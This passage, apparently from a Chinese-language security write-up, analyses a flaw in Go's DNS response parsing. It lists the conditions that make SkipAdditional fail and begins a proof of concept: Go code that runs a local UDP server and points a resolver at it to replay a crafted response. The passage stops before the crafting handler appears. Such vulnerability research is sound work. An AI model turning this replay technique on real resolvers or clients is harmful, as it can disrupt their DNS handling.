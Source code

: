 ```
  p.resHeaderValid = true
  p.resHeaderOffset = p.off
  p.resHeaderType = hdr.Type
  // 需要让 hdr.Length 为一个大值
  p.resHeaderLength = hdr.Length
  p.off = off
  return hdr, nil
}
```  
  
  
通过 wireshark 抓包看一下 demo 中的请求数据。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxEBdzjmj00CU9UlibT4RaLN2ffq48V4qlPvGVbqDQYYSO01v04wJcPia8GYwExY8aylTWt6K5MicWickg/640?wx_fmt=png&from=appmsg "")  
  
  
**小结**  
  
  
为了触发循环过程中  
 p.SkipAdditional() 报错需要进行如下操作：  
- 确保   
resourceHeader 正常解析，并且在解析时   
unpack 解析到了 Addtional Data 的长度是一个大值。  
  
- 确保 Addtional Data 的 Type 不是   
message.TypeOPT  
  
  
  
  
  
**4**  
  
**构造利用**  
  
  
  
通过上面的小结可以直接对已有的数据包进行修改，然后重放这个 response 就可以了。  
  
```
func main() {
  go StartUdp()
  r := net.Resolver{PreferGo: true, Dial: func(ctx context.Context, network, address string) (net.Conn, error) {
    udpAddr, err := net.ResolveUDPAddr("udp", "127.0.0.1:1153")
    if err != nil {
      log.Println(err)
      os.Exit(1)
    }
    return net.DialUDP("udp", nil, udpAddr)
  }}
  r.LookupNS(context.TODO(), "test.dns.o1hy.com")
  fmt.Println("over")
}
 
// 接受 DNS 请求
func StartUdp() {
  addr := "0.0.0.0:1153"
  udpAddr, err := net.ResolveUDPAddr("udp", addr)
  if err != nil {
    log.Println(udpAddr)
  }
  conn, err := net.ListenUDP("udp", udpAddr)
  defer conn.Close()
  if err != nil {
    log.Println(err)
  }
  for {
    hanldUdp(conn)
  }
```